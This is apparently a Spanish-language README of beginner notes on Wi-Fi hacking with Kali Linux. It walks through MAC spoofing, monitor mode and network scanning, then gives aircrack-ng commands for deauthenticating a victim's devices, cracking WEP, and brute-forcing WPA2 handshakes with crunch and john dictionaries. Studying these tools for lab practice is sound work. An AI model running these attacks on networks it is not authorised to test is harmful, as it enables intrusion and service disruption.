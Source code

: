# Pasos para iniciar en la ciberseguridad

## Instalaciones

- Instalar VirtualBox
- Instalar Kali Linux
- Actualizar paquetes de Kali Linux
  `sudo apt-get update`
  `sudo apt-get upgrade`
- Intalar terminator (terminal mejorada)
  `sudo apt-get install terminator`

## Comandos basicos de linux

`ls` (lista los archivos y carpetas)
`cd` (cambia de directorio)
`cd ..` (cambia al directorio anterior)

## Comandos para la red

- `sudo` (permite ejecutar comandos como administrador)
- `ifconfig` (muestra la configuracion de la red)
  - wlan0: interfaz de red inalambrica
  - inet: ip de la red
  - ether: direccion mac
- `ifconfig wlan0 down` (desactiva la interfaz de red necesario para cambiar el modo de la tarjeta)
- `ifconfig wlan0 hw ether 00:11:22:33:44:55` (cambia la direccion mac)
- `ifconfig wlan0 up` (activa la interfaz de red)

  ### Modos inalambricos

- `iwconfig` (muestra los modos de la tarjeta)
  - Modo monitor: permite capturar paquetes de red
  - Modo managed: permite conectarse a una red solo conecta adaptador con el router
- `ifconfig wlan0 down`
- `airmon-ng check kill` (mata los procesos que esten usando la tarjeta para mejorar el rendimiento de receptor)
- `service network-manager start` (inicia el servicio de red)
- `iwconfig wlan0 mode monitor`
- `iwconfig wlan0 mode managed` regresa a modo managed
- `ifconfig wlan0 up`

  ### aircrack-ng

  Muestra informacion de la redes inalambricas a su alrededor

- `sudo apt-get install aircrack-ng` (instala aircrack-ng si no estas en Kali Linux)
- `airodump-ng wlan0` (muestra las redes inalambricas a su alrededor)

  - BSSID: direccion mac del router
  - ESSID: nombre de la red
  - CH: canal de la red
  - ENC: tipo de encriptacion
  - PWR: potencia de la señal
  - Beacons: numero de paquetes que se han enviado
  - IV: numero de paquetes que se han capturado

  ## Bandas wifi 2.4Ghz y 5Ghz

  Determina los canales que podemos usar para evitar interferencias con otras redes inalambricas depende de los adaptadores que tengamos para poder capturar paquetes

- bandas comunes

  - a: 5.15 - 5.25 GHz
  - b - g: 2.4 - 2.4835 GHz
  - n: 2.4 - 2.4835 GHz y 5.15 - 5.25 GHz
  - ac: 5.15 - 5.25 GHz

- `airodump-ng --band a wlan0` (muestra las redes inalambricas a su alrededor en la banda a)
- `airodump-ng --band abg wlan0` (muestra las redes inalambricas a su alrededor en la banda abg)

## Olfateo selectivo
- `airodump-ng wlan0`
- `airodump-ng --bssid 00:11:22:33:44:55 --channel 1 --write test wlan0` (captura paquetes de la red con la direccion mac 00:11:22:33:44:55 en el canal 1)

## Ataque deauth
- `aireplay-ng --deauth 4 -a 00:11:22:33:44:55:66 -c 55:66:77:88:99:4d (<- lan de victima) wlan0` deautientica a un cliente de la red
-`aireplay-ng --deauth 10 -a 00:11:22:33:44:55:66 -c ff:ff:ff:ff:ff:ff wlan0 &> /dev/null&` -> `aireplay-ng --deauth 10 -a 00:11:22:33:44:55:66 -c ff:ff:ff:ff:68:54 wlan0 &> /dev/null&`  -> `jobs` -> `kill`

## Crakear wep
- `airodump-ng --bssid 00:11:22:33:44:55:66 --channel 1 --write wep wlan0`
- `aircrack-ng wep-01.cap` (crakea la red wep)

## Crakear wpa2
- wpa -> tkip
- wpa2 -> ccmp

- `airodump-ng --bssid 00:11:22:33:44:55:66 --channel 1 --write wpa2 wlan0`
- se puede hacer un deauth a la red para capturar paquetes

## crear diccionario
- `crunch [min] [max] [caracteres] -t [patron] -o [nombre archivo]`
- `crunch 8 8 0123456789 -t 12345678 -o diccionario` (crea un diccionario de 8 digitos)
- `aircrack-ng wpa-01.cap -w diccionario` encuentra la contraseña de la red wpa o wpa2

### pausar diccionario
- `john --wordlist=diccionario -stdout` para visualizar el diccionario en la terminal
- `john --wordlist=diccionario -stdout --session=nombre | aircrack-ng -w - -b [bssid de la red a atacar] wpa-01.cap` se puede pausar con `ctrl + c` y continuar con `john --restore=nombre | aircrack-ng -w - -b [bssid de la red a atacar] wpa-01.cap`

## Crear diccionario sin ocupar espacio en el disco duro
- `crunch 8 8 | aircrack-ng -w -  -b [bssid de la red a atacar] wpa-01.cap`
- `crunch 8 8 | john --stdin --session=wpa --stdout |   aircrack-ng -w - -b [bssid de la red a atacar] wpa-01.cap` con esto se puede pausar con `ctrl + c` y continuar con `crunch 8 8 | john --restore=wpa | aircrack-ng -w - -b [bssid de la red a atacar] wpa-01.cap`

## Portales captivos